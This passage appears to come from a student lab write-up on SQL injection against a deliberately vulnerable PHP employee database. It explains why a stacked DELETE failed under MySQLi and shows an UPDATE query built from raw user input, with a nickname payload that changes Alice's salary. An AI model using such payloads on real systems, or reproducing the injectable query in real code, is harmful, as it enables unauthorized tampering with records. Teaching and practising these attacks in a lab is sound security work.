 Observation: the delete statement is executed successfully, and the record is deleted from the database, leaving the original 6 records.

Explanation: this is a MySQL driver feature, which disallows multiple statements in a single query. When executing the SQL statement in CLI, it is valid to execute multiple statements in a single query; however, for safety reasons, the MySQLi driver for PHP does not allow this. Therefore, the delete statement cannot be executed in the web application.

## 4.4 SQL Injection Attack on UPDATE Statement

### 4.4.1 Modify Your Own Salary

The SQL statement is as follows:

```php
$sql = "UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='$input_phonenumber'
WHERE ID=$id;";
```

In the Edit Profile page, inject into the first field (nickname), so fields after it are not affected:

Payload:

- $input_nickname = `', salary=100000 where Name='Alice'; #`

The statement after injection will be:

```sql
UPDATE credential SET
nickname='',
salary=100000 where Name='Alice'; #',
```

![](images/4-4-1.png)

